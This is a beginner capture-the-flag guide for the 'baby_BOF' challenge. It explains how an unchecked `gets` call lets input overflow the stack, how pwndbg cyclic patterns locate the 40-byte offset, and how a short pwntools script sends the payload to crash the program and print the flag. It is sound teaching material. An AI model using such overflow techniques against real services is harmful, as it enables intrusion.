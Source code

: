 # Challenge Name
baby_BOF

## Learning Objective
Understand:
1. segmentation fault
2. buffer overflow
3. `gets` vulnerability

## Description 
Master this and further concepts will be easy.

## Difficulty:
Guided (Easy)

## Guide
Let's look at the source code:

In `main`:

```c
    // runs sigsegv_trigger() when a segmentation fault occurs
    signal(SIGSEGV, sigsegv_trigger);
```

From the code comment, we need to trigger a **segmentation fault** to run `sigsegv_trigger` function.

In `sigsegv_trigger`:

```c
    printf("Here is your flag: \n");
    FILE *file = fopen("flag.txt", "r");
    char flag[256];
    fgets(flag, 256, file);
    printf("%s", flag);
    fclose(file);
```

This function will give us our flag. How do we start?

### `gets` vulnerability

In `vuln`:

```c
    // vulnerable c function
    gets(buffer);
```

One of the most common C vulnerabilities. This function does not perform boundary checking, which means we can input as many bytes beyond its allocated size (thus buffer overflow).

### Buffer overflow

To put it simply, let's say a basket can hold 10 apples at maxmimum. But if I were to try and put 20 apples, some of these apples will overflow. You would then need to use another basket.

In programs, excess bytes will overflow into other values/addresses on the stack memory. 

### What is Segmentation Fault? How does it happen?

This is an error that occurs when a program attempts to access memory that is **not permitted to the user**. 

For example: reading/writing outside given boundaries (aka Buffer overflow).

There are 2 important addresses in a stack frame that is **not permitted** to us:
1. saved base pointer (RBP) address
2. return address

Let's try to overflow the **base pointer address** since it is always closer to the buffer.

### Find number of bytes to overflow base pointer address

1. Open program with pwndbg
```shell
$> gdb chall
```

2. Generate the cyclic pattern of 100 bytes (or any number big enough to cause a segmentation fault) & copy the output
```shell
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaa...
```

3. Run the program and paste when prompted
```shell
pwndbg> run
``` 

You should be able to observe this in the registers:
```shell
 RBP  0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdc48 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
```

This was from our cyclic pattern. This pattern helps us to identify how many bytes we need **before** it goes into whichever part of the stack we want.

In 64-bit programs, after the `RBP` is overflowed, the remaining will go into the `RSP` register.

So in this case,`faaaaaaa` will point to us how many bytes we need to **completely** overwrite saved RBP address.

Let's identify how many bytes we need with the following command below:
```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

### Manual Exploit 
Let's put 40 bytes of input (in this case I will put 40 `A`s) into the program, let's see what happens
```shell
$> ./chall
Hello World!
Enter some text: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
You entered: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation Fault!
Here is your flag: 
CTF{PLACEHOLDER} 
```

We got the flag!

### Script solve
In furher exercises, we will be using python script to solve. This is where `pwntools` will come in.

1. Import the library
```python
from pwn import *
```

2. Depending on whether you want to solve locally or remotely, add either of the following:
```python
# local solve
p = process("./chall")

# remote solve
p = process("IP", PORT)
```

3. Since we want to send 40 `A`s:
```python
payload = b'A' * 40
p.sendline(payload)
```

4. Interact with the service
```python
p.interactive()
```

When we put all that together u should get this:
```python
from pwn import *

# setup process
p = remote("ip", port)

# payload 
payload = b'A' * 40

# send payload
p.sendline(payload)
p.interactive()
```

Run in your terminal to solve:
```shell
$> python3 script.py
```

## Solution
Refer to solve.py.

## Hints
1. What causes segmentation fault? 
2. Have you considered saved RBP address?

## Attached Files
- chall.c
- chall

## Resources
- http://ctf101.org

## Flag
TBD
